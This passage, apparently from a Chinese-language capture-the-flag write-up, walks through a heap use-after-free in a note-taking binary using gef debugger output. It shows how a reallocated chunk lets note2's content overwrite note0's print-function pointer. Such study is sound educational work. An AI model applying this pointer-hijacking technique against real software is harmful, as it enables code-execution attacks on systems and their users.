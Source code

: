 ```asm
$ss    : 0x0000002b
$ds    : 0x0000002b
$es    : 0x0000002b
$fs    : 0x00000000
$gs    : 0x00000063
$eflags: [carry PARITY adjust ZERO sign trap INTERRUPT direction overflow resume virtualx86 identification]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ code:i386 ]────
    0x80486c2 <add_note+76>    add    DWORD PTR [eax], eax
    0x80486c4 <add_note+78>    add    BYTE PTR [ebx+0x86a0cec], al
    0x80486ca <add_note+84>    call   0x80484e0 <malloc@plt>
 →  0x80486cf <add_note+89>    add    esp, 0x10

```

**申請note2的content的內存地址爲0x804b008，就是note0對應的地址，即此時我們向note2的content寫內容，就會將note0的put字段覆蓋。**

```asm
gef➤  n 1
[+] Heap-Analysis - malloc(8)=0x804b008
[+] Heap-Analysis - malloc(8)=0x804b008
0x08048761 in add_note ()
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ registers ]────
$eax   : 0x0804b008  →  0x00000000
$ebx   : 0x0804b040  →  0x0804865b  →  <print_note_content+0> push ebp
$ecx   : 0xf7fac780  →  0x00000000
$edx   : 0x0804b008  →  0x00000000
$esp   : 0xffffcf10  →  0x00000008
$ebp   : 0xffffcf48  →  0xffffcf68  →  0x00000000
$esi   : 0xf7fac000  →  0x001b1db0
$edi   : 0xf7fac000  →  0x001b1db0
$eip   : 0x08048761  →  <add_note+235> add esp, 0x10
$cs    : 0x00000023
$ss    : 0x0000002b
$ds    : 0x0000002b
$es    : 0x0000002b
$fs    : 0x00000000
$gs    : 0x00000063
$eflags: [carry PARITY adjust ZERO sign trap INTERRUPT direction overflow resume virtualx86 identification]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ code:i386 ]────
    0x8048752 <add_note+220>   mov    al, ds:0x458b0804
    0x8048757 <add_note+225>   call   0x581173df
    0x804875c <add_note+230>   call   0x80484e0 <malloc@plt>
 →  0x8048761 <add_note+235>   add    esp, 0x10
```

我們來具體檢驗一下，看一下覆蓋前的情況，可以看到該內存塊的`printnote`指針已經被置爲NULL了，這是由fastbin的free機制決定的。

```asm
gef➤  x/2xw 0x804b008
0x804b008:	0x00000000	0x0804b018
```
